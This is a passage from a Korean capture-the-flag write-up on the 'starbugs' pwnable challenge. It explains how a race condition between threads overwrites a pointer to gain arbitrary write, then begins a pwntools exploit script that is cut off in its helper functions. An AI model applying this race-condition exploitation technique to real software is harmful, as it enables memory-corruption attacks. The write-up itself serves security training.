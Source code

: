 ingredient에 데이터가 꼭 들어가 있어야 coffee_name 포인터를 이용 해 arbitrary write를 할 수 있습니다.

그렇다면...?



## Finally, we got it! - Exploitation

그렇다면 ingredient에 데이터가 들어가게 하면 되죠!

우리가 아까 전에 살펴 보았던 Race condition 취약점을 이용 해 coffee type이 french일 때 add ingredient를 하여 특정 포인터에 쓰기 대기를 한 후, 다른 스레드가 같은 인덱스의 coffee type을 바꾸며 포인터의 위치까지 바꾼다면....? 그대로 포인터를 덮어 씌우고 mix를 통해 arbitrary write를 가능하게 합니다!

이제 완성된 익스플로잇 코드를 한번 살펴 보겠습니다.

```python
#!/usr/bin/python

from pwn import *

e = ELF("./starbugs",checksec=False)
l = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)

context.clear(arch='x86_64')

def pinit():
        ret = {'name':'', 'mix':'', 'base':''}

        p = process(e.path)
        p.readuntil("client: ")
        tmp = p.readuntil("\n")

        tmp = tmp[tmp.find('"')+1:]
        name = tmp[:tmp.find('"')]
        tmp = tmp[tmp.find('"')+1:]

        tmp = tmp[tmp.find('"')+1:]
        mix = tmp[:tmp.find('"')]
        tmp = tmp[tmp.find('"')+1:]

        tmp = tmp[tmp.find('"')+1:]
        base = tmp[:tmp.find('"')]

        if base == "french spresso":
            p.close()
            return False

        ret['p']        = p
        ret['name']     = name
        ret['mix']      = mix
        ret['base']     = base

        return ret

def sell(idx):
    p.sendline("1")
    p.readuntil("sell? ")
    p.sendline(str(idx))
    p.readuntil("> ")
    p.readuntil("please.\n")

def brew(c):
    p.sendline("2")
    p.readuntil("> ")
    p.sendline("1")
```